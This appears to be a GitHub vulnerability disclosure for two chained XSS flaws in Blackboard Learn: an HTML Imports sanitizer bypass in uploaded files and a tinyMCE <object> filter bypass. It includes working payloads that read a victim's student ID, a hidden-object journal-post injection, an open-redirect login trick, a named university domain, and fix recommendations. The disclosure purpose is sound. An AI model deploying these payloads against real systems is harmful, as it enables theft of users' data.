 # BlackBoardXSS2018
Blackboard XSS Vuln Discovered in late 2018

# Bypassing CORs and HTML XSS Filters using HTML Imports

## Info

**Vulnerability Type:** XSS

**Affected Products:** Blackboard Learn

**Discovery Date:** 09/13/2018

## Description

This exploit is based on most Blackboard users being able to upload custom HTML files that will be served from the same domain as the rest of the web application. These HTML files are then able to access the rest of the content on the web application without needing to worry about CORs getting in the way. Blackboard did foresee this problem however and put a HTML sanitizer in front of the custom HTML files users could upload. This sanitizer however did not account for the **HTML Imports** feature that the Chrome Browser supports.

According to the Mozilla Foundation HTML Imports were meant to be used for packaging Web Components. The feature can be used to “inject” the contents of a remote HTML file into the current web page’s DOM. HTML Imports don’t need to be on the same domain as their parent if they want to interact with each other. This is the opposite of iFrames which require the parent and iFrame source domain to be the same if they wish to interact with each other.

HTML Imports not being sanitized in the custom HTML files users can upload allows the user to put any HTML that they don’t want the web application sanitizing onto a different web server then just import it by URL in the custom HTML files they build. The user can now build and serve custom HTML files that can import code that won’t be sanitized by the web application and have that code run as if it sat on the main web application domain.

A malicious user with a standard login for the web application can now generate URLs that steal the data of any user that visits them and then send that data to a remote server. This method of data exfiltration however still requires the attacker to send their malicious URLs to other users and convince the recipients to open the URL they received.

Blackboard has a second XSS Filter vulnerability in the HTML Sanitizer of the WYSIWYG content editor it uses called **tinyMCE.** This vulnerability will allow a malicious user to construct Posts and Journal entries that when viewed by other users have the ability to exfiltrate that user’s data in the background with an invisible iFrame.

tinyMCE has a HTMl Filter function that should prevent the loading of unapproved content resources through stripping the html elements and attributes that would normally let them load. The content editor however is vulnerable to being passed a specially crafted segment of HTML that will allow the output of a ```<object>``` tag with the ```type``` and ```data``` attributes being set to any value. The ```<object>``` tag can be utilized to load an iFrame with a custom source URL that can be set to the malicious URL that points to a XSS payload that can steal the user’s data in the background. The ```<object>``` tag only needs to have its ```type``` attribute set to ```text/x-scriptlet``` and then any CORs approved URL can be loaded using the ```data``` attribute on the ```<object>``` tag.

## Reproduction

####  Constructing a malicious URL that can steal a visitor's Student ID

1. Upload the below HTML Snippet to a Third Party Server where you can obtain a url that points to the below code. (gist.github.com was used in testing)
```html
<script>
  setInterval(function() {
    var otherImport = window.parent.document.getElementById("otherImport");
    if (otherImport && otherImport.import) {
      var studentId = otherImport.import.querySelector("#studentId").getAttribute("value");
      console.log("Your student ID IS: " + studentId);
    }
 }, 5000);
</script>
```

2. Take the url where you uploaded the above code snippet and replace **XSS_JS_SNIPPET** with it in the HTML XSS Payload below.

```html
<link id="otherImport" rel="import" href="https://blackboard.newhaven.edu/webapps/blackboard/execute/editUser?context=self_modify" />
<link rel="import" href="XSS_JS_SNIPPET" />
```
3. Save the above code snippet with **XSS_JS_SNIPPET** segment replaced to a '.html' and then upload that file somewhere on your Blackboard Content Collection. After the file is uploaded change the permission to allow anyone to view the file.
4. Click the name of the file you just uploaded in Blackboard's Content Collection interface and copy the URL that is resolved in your browser after the name is clicked.
5. You can now send that URL to any user in the same Blackboard system as you and their Student ID will be logged to the browser console as a PoC.
6.  (Optional) If your Blackboard system happens to support the url scheme ```https://BLACKBOARD_SERVER_DOMAIN/webapps/bb-auth-provider-cas-bb_bb60/execute/casLogin?cmd=login&authProviderId=_111_1&redirectUrl=REDIRECT_URL_ENCODED```  You can replace the ```REDIRECT_URL_ENCODED``` with an encoded version of the malicious URL you generated in step 5 and the resulting link will automatically redirect users to log in if they aren't already before performing the XSS payload delivered by your malicious URL

#### Embedding your malicious URL in a journal entry post
1. The HTML snippet you uploaded in step 1 above needs to be modified slightly so replace contents of file uploaded then with the code snippet below. 

```html
<script>
  setInterval(function() {
    var otherImport = window.document.getElementById("otherImport");
    if (otherImport && otherImport.import) {
      var studentId = otherImport.import.querySelector("#studentId").getAttribute("value");
      console.log("Your student ID IS: " + studentId);
    }
 }, 5000);
</script>
```

2. Replace the ```XSS_PAYLOAD_URL``` in the code snippet below with the malicious URL you constructed at the end of step 4 above.

```html
<script></script
<iframe style="display:none"%29></iframe>
<svg display="none"><script ?></if><img>
<object style="height:0px;width:0px;position:absolute;top:0left:0" type="text/x-scriptlet" data="XSS_PAYLOAD_URL"></object>
```

3. Construct a new Journal Entry in Blackboard and expand the WYSIWYG editor's toolbar and select the **HTML** button and paste the contents of the code snippet above into the popup that appears and then press **Update** and **Post Entry**.
4. Now anyone who views your journal entry will automatically be subjected to the effects of the  malicious URL that was constructed at the end of **Step 4** in **Constructing a malicious URL that can steal a visitor's Student ID**


## Exploitability

The vulnerabilities described above can be executed by any Blackboard user who has access to uploading custom HTML files to the **Content Collection** section of their dashboard.

## Impact

This two vulnerabilities described above can be combined to allows a user’s data to be stolen with a malicious XSS payload that they could encounter just throughout regular use of the Blackboard Learn System.

## Recommendations

1. Disallow the ```rel``` attribute for the ```<link>``` tag in the HTML Filter that Blackboard utilizes to sanitize custom HTML files that are uploaded to the **Content Collection** section of a user's dashboard.
2. Fix the bug in the HTML Filter utilized by tinyMCE so that it filters out all ```<object>``` tags properly.

## Reference(s)

https://developer.mozilla.org/en-US/docs/Web/Web_Components/HTML_Imports
https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45




